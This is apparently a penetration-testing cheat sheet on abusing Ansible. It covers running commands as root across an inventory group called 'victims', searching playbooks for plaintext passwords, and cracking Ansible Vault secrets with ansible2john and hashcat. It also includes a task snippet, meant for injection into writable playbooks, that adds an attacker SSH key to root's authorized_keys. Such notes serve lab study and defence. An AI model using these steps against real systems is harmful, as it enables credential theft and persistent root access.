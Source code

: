 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Ansible
---
```


# Ansible

<pre>
  <code>
    puts "helloz"
  </code>
</pre>

#### Commands
_Ansible_ is an infrastructure configuration engine that enables IT personnel to dynamically and automatically configure IT infrastructure and computing resources through Python scripts.
Config in `/etc/ansible/hosts`.
The _ansibleadm_ user on the controller issues commands.
From the command machine:
```shell
ansible victims -a "whoami"
```
This will run `whoami` on all members of the Ansible group. To run it as root `ansible victims -a "whoami" --become` or specify the user `ansible victims -a "whoami" --become user2`.

#### Playbooks
Sets of tasks written in YAML to be scripted so that they can be run in a routine.
Check this files in _/opt/playbooks_ to see if there's any info leakage.
I.E.

```YAML
---
- name: Write a file as offsec
  hosts: all
  gather_facts: true
  become: yes
  become_user: offsec <-------
  vars:
    ansible_become_pass: lab <---------
  tasks:
    - copy:
          content: "This is my offsec content"
          dest: "/home/offsec/written_by_ansible.txt"
          mode: 0644
          owner: offsec
          group: offsec
```

Ansible has a new features called _Ansible Vault_ to securely store credentials for playbooks:
```yaml
ansible_become_pass: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          39363631613935326235383232616639613231303638653761666165336131313965663033313232
          3736626166356263323964366533656633313230323964300a323838373031393362316534343863
          36623435623638373636626237333163336263623737383532663763613534313134643730643532
          3132313130313534300a383762366333303666363165383962356335383662643765313832663238
          3036
```

Copy the hash starting with "$ANSIBLE_VAULT......." and use _ansible2john_ to convert it in a crackable way to then:
```shell
hashcat testhash.txt --force --hash-type=16900 /usr/share/wordlists/rockyou.txt
```

to then decrypt the vault like:
```shell
cat pw.txt | ansible-vault decrypt
```

Also, if the playbook files used on the controller have world-writable permissions or if we can find a way to write to them (perhaps through an exploit), we can inject tasks that will then be run the next time the playbook is run.
I.E. to add to the yaml playbook:
```yaml
- name: Create a directory if it does not exist
      file:
        path: /root/.ssh
        state: directory
        mode: '0700'
        owner: root
        group: root

    - name: Create authorized keys if it does not exist
      file:
        path: /root/.ssh/authorized_keys
        state: touch
        mode: '0600'
        owner: root
        group: root

    - name: Update keys
      lineinfile:
        path: /root/.ssh/authorized_keys
        line: "ssh-rsa AAAAB3NzaC1...Z86SOm..."
        insertbefore: EOF
```

Also, some modules from Ansible might leak data in /var/log/syslog (I.E. shell module)
